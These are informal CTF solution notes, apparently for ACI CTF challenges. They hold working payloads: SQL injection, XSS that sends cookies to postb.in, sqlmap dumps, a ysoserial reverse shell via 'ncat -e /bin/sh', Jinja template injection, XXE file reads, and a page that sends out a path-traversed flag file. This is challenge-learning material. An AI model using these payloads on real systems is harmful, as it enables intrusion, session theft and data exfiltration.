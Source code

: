 # Unsorted

This is a random collection of other problems I have notes on but need to make into better writeups.

I plan to keep working on these scripts to make them actually good.

## DENIED

* robots.txt
* `curl http://challenge.acictf.com:22623/secret_maintenance_foo_543212345 -d "cmd=cat flag.txt"`

## No escape

* `houdini' or pwHash = '' --` 

## Thats more than enough

* `convert -size 100x100 xc:black canvas.jpg` to create a simple image
* other image is embedded right after first

## Bootcamp

* https://en.wikibooks.org/wiki/QEMU/Debugging_with_QEMU
* 1st terminal: qemu-system-x86_64 -s -S -k en-us -m 512 -drive format=raw,file=floppy.img
* 2nd terminal: gdb;target remote localhost:1234; c

## Turtles all the way down

* password is in irc, use wireshark to extract the next zip, use 7zip to extract next pcap

## Controlled Access

* https://reverseengineering.stackexchange.com/questions/20632/help-unpacking-u-boot-firmware
* binwalk firmware.bin
* dd if=firmware.bin of=data.xz bs=1 count=1467840 skip=64
* dd if=firmware.bin of=squashfs.bin bs=1 skip=1467904
* unsquashfs squashfs.bin
* look in /root/payload.sh (INTERNAL_HOST)

## Boot Master

* fix byre set to 0x51 as 0x55
* do same things from bootcamp

## Boot Riddle

* same startup as before
* inside qemu do "ctrl+alt+2"
* xp/2c 0x7dc0

## hacker, scan thyself

* Loved this challenge
* gdb: set follow-fork-mode parent
* -22 (overwrite puts in GOT)
* 4195926 (decimal address for system)
* command goes in notes (cat flag)

## whats the difference

* hxd->analysis->compare
* F6
* but actually it's just at the end, look at size difference
* it's code that messes with the input parameters
* you can run it in olly or use the xor key with the other 2 addresses provided

## boot racer

* watch -l *(char *)0x7dc0
* same as before, once it breaks keep doing n and x/s 0x7dc0 to print flag

## library_card

```c
int main(){
	gatekeeper84(0,0,0);
	return 0;
}
```
`cp liblibrary_card.so /usr/lib`
`chmod 755 /usr/lib/liblibrary_card.so`
`ldconfig`
`gcc test.c -o test -llibrary_card`
`./test`
https://www.cprogramming.com/tutorial/shared-libraries-linux-gcc.html

## cookie monster

* name=flag&ingredients=<script>document.write('<img src%3D"https://postb.in/1587858395408-8044362019281?'%2Bdocument.cookie%2B' "/>')</script>
* replace session cookie and go to /admin

## the sql always sucks

* sqlmap -u http://challenge.acictf.com:27748/?firstname=test --random-agent --level=5 --risk=3 -D firstname -T SuperSecretData -C flag --dump


## I have caught you now

* &period;
* challenge.acictf.com:32317/search?se</code>a<svg/onload%3dalert(cookie)>a<code>rch=<script>
> https://www.ipaddressguide.com/ip
> http://challenge.acictf.com:32317/search?se%3C/code%3Ea%3Csvg/src%3Dhttp://167837204:2018/cookie/%3Ea%3Ccode%3Erch=%3Cscript%3E
> http://challenge.acictf.com:32317/search?se%3C/code%3Ea%3Csvg/src%3Dhttp://2886795265:2018/cookie/%3Ea%3Ccode%3Erch=%3Cscript%3E
> http://challenge.acictf.com:32317/search?se%3C/code%3Ea%3Csvg/onload%3Dalert(location%3D%26quot;https://postb%26period;in/1587951532697-0760058402083%3F%26quot;%26plus;cookie)%3Ea%3Ccode%3Erch=%3Cscript%3E

## c&c music factory

* get rid of ptrace
* creates so file, debug into that
* factory function calls a bunch of sub functions, make sure return value is right for each
* step through function it calls when res=0, should assemble flag

## needle in a haystack

* procdump - get exe, find function that does simple xor with flag
* memdump - ctrl+f for "ACI{" ^ key[:4] to find full string
* https://www.andreafortuna.org/2017/07/10/volatility-my-own-cheatsheet-part-3-process-memory/

## serial killer

* `apt-get install openjdk-8-jdk`
* download ysoserial
* `java -jar ysoserial-master-30099844c6-1.jar CommonsCollections4 'ncat -e /bin/sh 172.17.0.1 2018' > payload`
* on shell server: `nc -lvp 2018`
* `cat payload | nc challenge.acictf.com 30340`

## blame it on the temp

* robots.txt has the directory structure
* upload a file ../../templates/whatever/index.html (for any changes make a new folder!!)
* `{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen('cat *').read()}}{%endif%}{%endfor%}`

## extremely malicious language
admin' or '1'='1:' or '1'='1
payloadallthethings:
```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=make.php"> ]>
<cybermap>
	<name>&xxe;</name>
	<country>CN</country>
	<country>US</country>
</cybermap>
```
then:
```xml
<cybermap>
	<name>CYBER MAP</name>
	<country>CN</country>
	<country>US\")';./flag;#</country>
</cybermap>
```
view source

## firstfail
* http://10.0.254.20:2018/madstacks.html *
```html
<html>
  <body>
    <h1>Test page for Secure Password Manager</h1>
    <p>This page lets you test the password manager. Once you have it working, you can use it to log in below and continue on.</p>
  <div id="notice"></div>

  <form>
    <input type="text" name="username" placeholder="Username"><br/>
    <input type="password" name="password" placeholder="Password"><br/>
    <button>Login</button>
  </form>
  </body>

<script>
window.setTimeout(function(){
	window.postMessage({ 
		  type:'add_entry',
		  host: 'hacked',
		  entry: 'username="testuser",password="test",port.onMessage.addListener(msg => {document.write(msg.entries[0])});port.postMessage({type:"entries", pattern:"../../../../../../../../../opt/problems/firstfail_3_1f64919a0f4d781604743fa26334cbe8/flag.txt"});window.setTimeout(function(){$.get( "http://10.0.254.20:2018/?"+document.body.innerText, function( data ) {$( ".result" ).html( data );});}, 500);'
		}, "*");
	PasswordManager.openManager();
}, 500);
</script>
</html>
```